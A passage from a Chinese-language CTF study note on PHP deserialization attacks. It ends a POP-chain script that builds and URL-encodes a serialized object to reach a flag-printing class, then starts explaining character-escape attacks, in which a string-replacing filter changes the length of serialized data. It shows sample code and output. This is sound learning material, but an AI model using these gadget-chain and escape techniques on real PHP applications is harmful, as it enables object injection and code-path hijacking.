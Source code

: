 ```php
        public function __invoke()
        {        
                $this->mod2 = "字符串拼接".$this->mod1;
        } 
}
class string1
{
        public $str1;
        public function __construct()
        {
                $this->str1= new GetFlag();//把 $str1赋值为GetFlag类对象          
        }
        public function __toString()
        {        
                $this->str1->get_flag();
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."xxxxxxxxxxxx";
        }
}
$b = new start_gg;//构造start_gg类对象$b
echo urlencode(serialize($b))."<br />";//显示输出url编码后的序列化对象
```

还是不太熟，之后多练几个题吧。




# 2.反序列化字符逃逸

反序列化字符逃逸：

一共两种情况：一个是替换后导致序列化字符串变长，另一个就是替换后序列化的字符串变短。

此类题目的本质就是改变序列化字符串的长度，导致反序列化漏洞，这种题目有个共同点：

1.  php序列化后的字符串经过了替换或者修改，导致字符串长度发生变化。
2.  总是**先进行序列化**，**再进行替换修改操作**。

## 一、替换后序列化字符串变长

示例代码：

```php
<?php
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='aaaa';
    public $pass='123456';
}
$AA=new A();
echo serialize($AA);
$res=filter(serialize($AA));
echo $res;
$c=unserialize($res);
echo $c->pass;
?>
// out : O:1:"A":2:{s:4:"name";s:4:"aaaa";s:4:"pass";s:6:"123456";}
```
